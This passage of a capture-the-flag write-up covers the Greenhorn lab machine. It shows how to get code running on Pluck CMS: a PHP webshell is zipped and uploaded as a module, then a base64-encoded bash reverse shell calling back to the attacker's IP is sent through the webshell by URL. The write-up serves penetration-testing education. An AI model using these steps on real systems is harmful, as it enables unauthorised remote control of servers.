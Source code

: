 I’ll put it into a zip archive:

```

oxdf@hacky$ zip notevil.zip 0xdf.php 
  adding: 0xdf.php (stored 0%)

```

#### Upload Module

From the admin panel, I’ll go to options –> manage modules:

![image-20240722174126649](/img/image-20240722174126649.png)

On the resulting page, I’ll click on “Install a module…”:

![image-20240722174210973](/img/image-20240722174210973.png)

The next page is a form asking for the module file:

![image-20240722174233043](/img/image-20240722174233043.png)

I’ll give it the Zip archive I created earlier. It works:

![image-20240722185304031](/img/image-20240722185304031.png)

#### Webshell

Pluck takes that Zip archive and unpacks it into `/data/modules/[archive name without extension]/`. So I can find it at `/data/modules/notevil/0xdf.php`. I’ll add `?cmd=id` to the end of the URL to give it a command to run, and it works:

![image-20240722185025139](/img/image-20240722185025139.png)

It’s worth noting these file are cleaned up relatively frequently, so if the file isn’t there, I’ll have to re-upload.

#### Shell

I’ll base64 encode a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

```

oxdf@hacky$ echo 'bash -c "bash  -i >& /dev/tcp/10.10.14.6/443 0>&1"' | base64
YmFzaCAtYyAiYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSIK

```

Now I’ll visit:

```

http://greenhorn.htb/data/modules/notevil/0xdf.php?cmd=echo%20%22YmFzaCAtYyAiYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSIK%22%20|%20base64%20-d%20|%20bash

```

